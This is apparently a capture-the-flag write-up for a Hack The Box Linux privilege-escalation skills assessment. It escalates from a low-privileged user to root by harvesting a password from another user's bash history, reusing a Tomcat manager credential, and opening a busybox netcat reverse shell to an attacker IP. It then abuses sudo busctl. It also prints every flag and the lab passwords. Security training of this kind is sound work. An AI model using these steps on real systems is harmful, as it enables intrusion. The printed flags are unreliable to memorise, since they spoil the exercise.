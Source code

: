 # Skills Assessment

We have been contracted to perform a security hardening assessment against one of the `INLANEFREIGHT` organizations' public-facing web servers.

The client has provided us with a low privileged user to assess the security of the server. Connect via SSH and begin looking for misconfigurations and other flaws that may escalate privileges using the skills learned throughout this module.

Once on the host, we must find `five` flags on the host, accessible at various privilege levels. Escalate privileges all the way from the `htb-student` user to the `root` user and submit all five flags to finish this module.

Submit the contents of flag1.txt

```
htb-student@nix03:~$ history
    1  id
    2  ls
    3  ls /var/www/html
    4  cat /var/www/html/flag1.txt 
    5  exit
```

<figure><img src="../../.gitbook/assets/image (109).png" alt=""><figcaption><p>LLPE{d0n_ov3rl00k_h1dden_f1les!}</p></figcaption></figure>

Submit the contents of flag2.txt

<figure><img src="../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

```sh
htb-student@nix03:/home/barry$ ls -al
total 40
drwxr-xr-x 5 barry barry 4096 Sep  5  2020 .
drwxr-xr-x 5 root  root  4096 Sep  6  2020 ..
-rwxr-xr-x 1 barry barry  360 Sep  6  2020 .bash_history
-rw-r--r-- 1 barry barry  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 barry barry 3771 Feb 25  2020 .bashrc
drwx------ 2 barry barry 4096 Sep  5  2020 .cache
-rwx------ 1 barry barry   29 Sep  5  2020 flag2.txt
drwxrwxr-x 3 barry barry 4096 Sep  5  2020 .local
-rw-r--r-- 1 barry barry  807 Feb 25  2020 .profile
drwx------ 2 barry barry 4096 Sep  5  2020 .ssh
htb-student@nix03:/home/barry$ cat .bash_history 
cd /home/barry
ls
id
ssh-keygen
mysql -u root -p
tmux new -s barry
cd ~
sshpass -p 'i_l0ve_s3cur1ty!' ssh barry_adm@dmz1.inlanefreight.local
history -d 6
history
history -d 12
history
cd /home/bash
cd /home/barry/
nano .bash_history 
history
exit
history
exit
ls -la
ls -l
history 
history -d 21
history 
exit
id
ls /var/log
history
history -d 28
history
exit
```

```sh
htb-student@nix03:/home/barry$ su - barry
Password: she
barry@nix03:~$ ls
flag2.txt
barry@nix03:~$ cat flag2.txt 
LLPE{ch3ck_th0se_cmd_l1nes!}
```

Submit the contents of flag3.txt

```
barry@nix03:/$ find / -type f -name "flag3.*" -exec ls -l {} \; 2>/dev/null
-rw-r----- 1 root adm 23 Sep  5  2020 /var/log/flag3.txt
barry@nix03:/$ cat /var/log/flag3.txt
LLPE{h3y_l00k_a_fl@g!}
```

Submit the contents of flag4.txt

```
barry@nix03:/$ find / -type f -name "flag4.*" -exec ls -l {} \; 2>/dev/null
-rw------- 1 tomcat tomcat 25 Sep  5  2020 /var/lib/tomcat9/flag4.txt
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption><p>T0mc@t_s3cret_p@ss!</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption><p>tomcat manager page</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (104).png" alt=""><figcaption><p>LLPE{im_th3_m@nag3r_n0w}</p></figcaption></figure>

Submit the contents of flag5.txt

* Get a reverse shell using the following command
  * `busybox nc 10.10.14.5 7890 -e sh`

> The current shell won't beable to run busutil fully since busutil needs a interactive shell to escalate the privilege.

<figure><img src="../../.gitbook/assets/image (106).png" alt=""><figcaption><p>Get the second shell </p></figcaption></figure>

Shell upgrade

1. `exec /bin/bash --login` (on Attack machine)
2. connect to the reverse shell from the target (nc listen and reverse shell payload)
3. `python3 -c 'import pty; pty.spawn("/bin/bash")'` (on Target machine)
4. background the process using `Ctrl+z` (on Attack machine)
5. `stty raw -echo; fg; reset` (on Attack machine)

After the shell is fully upgraded, run&#x20;

<figure><img src="../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/busctl/#sudo" %}

<figure><img src="../../.gitbook/assets/image (108).png" alt=""><figcaption><p>LLPE{0ne_sudo3r_t0_ru13_th3m_@ll!}</p></figcaption></figure>
